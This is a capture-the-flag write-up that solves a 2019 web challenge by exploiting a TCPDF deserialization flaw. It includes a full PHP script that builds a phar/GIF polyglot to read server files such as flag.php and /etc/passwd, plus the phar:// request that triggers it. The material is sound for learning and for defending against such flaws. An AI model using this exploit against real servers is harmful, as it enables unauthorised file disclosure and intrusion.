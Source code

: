 ## Introduction
This challenge gives us a web app and its [source code](https://github.com/everping/ctfs/blob/master/2019/chaos_communication_camp_2019/code-6c8fe52c26dec8c08d407bef5a52598d39dbf8b3.zip). Basically, the flow of that web app is:
- Users upload an image (png, jpg, jpeg, gif) and get the uploaded url
- Users post arbitrary html content to generate a pdf, the above image url can be included in the html content

## Analysis
Firstly, I uploaded a malformed image and got an error related to `imagemagick` in the process of creating pdf file by `tcpdf` library. This made me think of the idea of [imagetragick](https://imagetragick.com/). However, I threw this thought away when I saw functions that check the format of image files through their exif. That check prevent us to create a completed payload for the imagetragick attack.

```php
	if(function_exists('exif_imagetype')) { //Die exif_imagetype-Funktion erfordert die exif-Erweiterung auf dem Server
	 $allowed_types = array(IMAGETYPE_PNG, IMAGETYPE_JPEG, IMAGETYPE_GIF);
	 $detected_type = exif_imagetype($_FILES['file']['tmp_name']);
	 
	 
	 if(!in_array($detected_type, $allowed_types)) {
	 echo("<div class=\"container\">Only pictures allowed!</div>");
	 return;
	 }
	}
```


By googling about `tcpdf` library, I found a deserialization vulnerability in its [old version](https://packetstormsecurity.com/files/152200/TCPDF-6.2.19-Deserialization-Remote-Code-Execution.html). I reviewed our source code and compared it to that exploit and realized that we have ideal factors to create a perfect attack:
- tcpdf version 6.2.13 affected by that vulnerability
- A destruct method is defined in class PDFCreator (creator.php), this method included `file_get_contents()` function that can be trigged to read arbitrary files in the server.

## Exploit
The exploit code provided in [that paper](https://packetstormsecurity.com/files/152200/TCPDF-6.2.19-Deserialization-Remote-Code-Execution.html) is very straightforward, we can use it with a little bit of modifying. Below is what I did:
### 1. Create a valid image included the payload by using the code below
```php
<?php
namespace PDFStuff {
	
	# Define the vulnerable class
	class PDFCreator { public $tmpfile; }
	
	$phar_file = "poc.phar";
	$image_file = "poc.gif";

	# Initialize a Phar class
	$phar = new \Phar($phar_file);
	$phar->startBuffering();
	$phar->addFromString("test.txt", "test");
	
	# Set stub with gif prefix to bypass image checking
	$phar->setStub("GIF89a<?php __HALT_COMPILER();");

	$payload = new PDFCreator();
	
	# Create a payload to read flag file
	$payload->tmpfile = "/var/www/site/flag.php"; 
	$phar->setMetadata($payload);
	$phar->stopBuffering();
	rename($phar_file, $image_file);
}
```
If you want to try it, save it as a php file (payload.php) and turn off `phar.readonly` directive in `php.ini` then execute the command `php payload.php`. You will get file `poc.gif` and use it to do next steps.
I should explain a bit about some special points in my code:
- `GIF89a` is included as the prefix of output file because I want to bypass extension checking
- We have to pass to `$payload->tmpfile` the file we want to read. I tried with `flag.php` and got failed, but `/etc/passwd` worked so I think we need an absolute path. I read `/etc/apache2/sites-enabled/000-default.conf` first to get the full path of web source code and then luckily, I found `/var/www/site/flag.php`

### 2. Upload file and get flag
- From frontend, upload the created `poc.gif` and get the uploaded url
- Create a request like below to get pdf, the flag will be included in the response
```
POST /index.php HTTP/1.1
Host: hax.allesctf.net:3333

pdfcontent=<img src="phar://upload/df911f0151f9ef021d410b4be5060972.gif">
```
- Flag is `ALLES{phar_jpeg_polyglot_madness_such_w0w}`
